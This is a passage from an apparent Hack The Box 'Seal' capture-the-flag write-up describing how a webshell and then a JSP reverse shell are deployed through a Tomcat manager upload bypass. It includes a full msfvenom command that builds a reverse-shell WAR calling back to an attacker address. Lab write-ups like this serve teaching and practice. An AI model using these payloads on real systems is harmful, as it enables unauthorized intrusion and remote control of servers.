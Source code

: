 Now to deploy it. Using the same path altering method as before, we upload the war file via the tomcat manager page and the upload succeeds.
![Screenshot_url_bypass.png](/assets/images/posts/htb-seal/Screenshot_url_bypass.png)

We can now access our webshell and run commands. To make running commands easier, let's access it through burp:

![Screenshot_tomcat_webshell.png](/assets/images/posts/htb-seal/Screenshot_tomcat_webshell.png)

We can see the whoami command being executed through our webshell, and it responds that we're running as the tomcat user. This is nice, but ideally we'd like a proper shell to interact with.

Let's create a jsp reverse shell in war format with the msfvencom tool:
```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.26 LPORT=9002 -f war > runme.war
Payload size: 1100 bytes
Final size of war file: 1100 bytes
```

I uploaded this payload the same way as before through the tomcat manager UI, then went to that location using the web browser to trigger the payload:
https://seal.htb/runme/

Our listener gets a hit and we have a shell:
![Screenshot_tomcat_shell.png](/assets/images/posts/htb-seal/Screenshot_tomcat_shell.png)
